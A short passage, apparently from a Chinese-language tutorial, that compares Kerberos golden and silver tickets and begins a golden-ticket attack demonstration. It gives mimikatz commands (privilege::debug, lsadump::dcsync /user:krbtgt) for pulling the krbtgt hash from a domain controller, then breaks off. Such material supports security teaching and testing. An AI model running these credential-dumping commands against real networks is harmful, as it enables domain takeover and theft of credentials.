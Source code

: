 ![](vx_images/4364155096545.png)

### 3.1.4 黄金票据与白银票据的区别

- 访问权限不同

黄金票据: 伪造 TGT, 可以获取任意 kerberos 服务权限
白银票据: 伪造 ST, 只能访问指定的服务

- 加密方式不同

黄金票据: 由 krbtgt 的 NTLM HASH 进行加密
白银票据: 由服务账号(通常为计算机账号)的 NTLM HASH 进行加密

- 认证流程不同

黄金票据: 利用过程需要访问域控
白银票据: 不需要访问域控

## 3.2 黄金票据攻击演示

- 1. 获取 krbtgt hash:

首先使用 mimikatz 在域控上获取 krbtgt hash:

```
privilege::debug
lsadump::dcsync /user: krbtgt
```
